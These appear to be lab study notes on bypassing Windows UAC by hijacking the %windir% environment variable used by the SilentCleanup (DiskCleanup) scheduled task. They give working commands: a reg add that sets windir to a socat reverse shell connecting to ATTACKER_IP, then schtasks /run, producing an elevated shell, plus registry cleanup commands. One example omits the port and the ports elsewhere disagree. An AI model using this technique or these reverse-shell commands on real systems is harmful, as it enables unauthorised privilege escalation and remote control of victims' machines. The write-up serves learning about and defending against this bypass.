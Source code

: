 ```batch
reg delete "HKCU\Software\Classes\.ownd\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

# Environment Variable Expansion
As we've seen we can abuse some applications related to the system's configuration to bypass UAC as most of these apps have the autoElevate flag set on their manifests. However, if UAC is configured on the **"Always Notify"** level, Fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate. This prevents several methods from being used. BUT NOT ALL!!!

We can abuse a scheduled task that can be run by any user but will execute with the highest privileges available to the caller. By design, scheduled tasks are meant to be run without any user interaction (No UAC), so asking us to elevate a process manually is not an option. Any scheduled tasks that require elevation will automatically get it without going through the UAC prompt.

## Case study: Disk Cleanup Scheduled task
To understand why we are picking Disk Cleanup, let's open the **Task Scheduler** and check the task's configuration
![[Pasted image 20240906162522.png]]
Here we can see that the task is configured to run with the **Users** account, which means it will inherit the privileges from the calling user. The **Run with highest privileges** option will use the highest IL token available to the calling user. 
Checking the Actions and Settings tabs, we have the following
![[Pasted image 20240906162926.png]]
The task can be run on-demand, executing the following command when invoked: `%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`
Since the command depends on environment variables, we might be able to inject commands through them and get them executed by starting the `DiskCleanup` task manually.
Luckily for us, we can override the `%windir%` variable through the registry by creating an entry in `HKCU\Environment`. If we want to execute a reverse shell using socat, we can set `%windir%` as follows
```
cmd.exe /c C:\tools\socat\socat.exe TCP:ATTACKER_IP: EXEC:cmd.exe,pipes &REM 
```
At the end of our command we can concatenate `&REM ` (**ending with a blank space**) to comment whatever is put after `%windir%` when expanding the environment variable to get the final command used by `DiskCleanup`. The resulting command would be 
```
cmd.exe /c C:\tools\socat\socat.exe TCP:ATTACKER_IP:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%
```
Where again, everything after "REM" is ignored.

---

To exploit it we just need to rewrite `%windir%` with our payload and then execute the task
```cmd
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:ATTACKER_IP:4444 EXEC:cmd.exe,pipes &REM " /f
schtasks/run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```
This will give us a shell back with High IL. Note that this method will **not** work with defender.
